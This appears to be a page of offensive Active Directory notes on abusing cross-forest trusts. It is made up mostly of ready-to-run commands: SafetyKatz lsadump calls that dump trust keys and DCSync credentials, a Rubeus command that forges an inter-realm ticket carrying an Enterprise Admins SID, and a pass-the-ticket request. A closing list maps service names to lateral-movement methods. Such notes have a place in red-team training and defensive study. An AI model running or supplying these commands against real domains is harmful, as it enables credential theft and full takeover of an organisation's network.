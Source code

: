 # Methodology
>1. Dump the trust key of the child domain (Credentials -> Hash NTLM).
>2. Forge an inter-forest ticket.
>3. Inject the ticket.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Get the trust key:**
```cmd
SafetyKatz.exe '"lsadump::trust /patch"'
SafetyKatz.exe '"lsadump::dcsync /user:contoso\techcorp$"'
SafetyKatz.exe '"lsadump::lsa /patch"'
```

## Rubeus
**Forge a interrealm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/TECHCORP.LOCAL /rc4:a6215eeb238da9262d014a529fe03adb /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /nowrap
```

where:
- `silver` - Creates a forged Silver Ticket (TGS) for service authentication.  
- `/user` - Specifies the username to impersonate (e.g., `Administrator`).  
- `/ldap` - Targets the LDAP service on Domain Controllers.  
- `/service` - Specifies the service principal name (format: `krbtgt/DOMAIN.LOCAL`).
- `/rc4` - Provides the NTLM hash of the trust key account for ticket signing . 
- `/sids` - Adds Enterprise Admins SIDs to the ticket (e.g., Enterprise Admins `S-1-5-21-...-519`) .

**Request a TGS:**
```cmd
Rubeus.exe asktgs /service:CIFS/techcorpdc.TECHCORP.LOCAL /dc:techcorp-dc.TECHCORP.LOCAL /ptt /ticket:
```

>**ℹ️ Info:**
> Different SPN and what they're used for:
>- CIFS for directory browsing, copying files.
>- HTTP for WinRS.
>- HOST and CIFS for psexec.
>- HOST and RPCSS for WMI.
>- HOST and HTTP for PowerShell Remoting/WINRM.
>- LDAP for dcsync